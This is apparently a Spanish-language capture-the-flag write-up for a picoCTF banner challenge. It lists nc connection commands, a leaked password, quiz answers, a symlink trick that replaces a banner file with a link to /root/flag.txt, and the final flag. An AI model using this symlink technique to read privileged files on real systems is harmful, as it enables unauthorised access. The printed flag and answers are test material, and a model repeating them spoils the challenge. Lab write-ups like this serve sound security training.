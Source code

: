 ## Descripción 
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 53928`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 60285`. From the above information abuse the machine and find the flag in the /root directory.
## Solución
Ingresar el comando "nc tethys.picoctf.net 53928" para ver la password.

Ingresar el comando "nc tethys.picoctf.net 60285" para empezar la conexion.
Responder las siguientes preguntas:
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

Una vez pasadas las preguntas insertar los siguientes comandos para eliminar el banner.

rm /home/player/banner

 ln -s /root/flag.txt /home/player/banner

salirse de la conexión.
volver a hacer la conexión para tener la flag.
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

## Notas Adicionales 
## Referencias
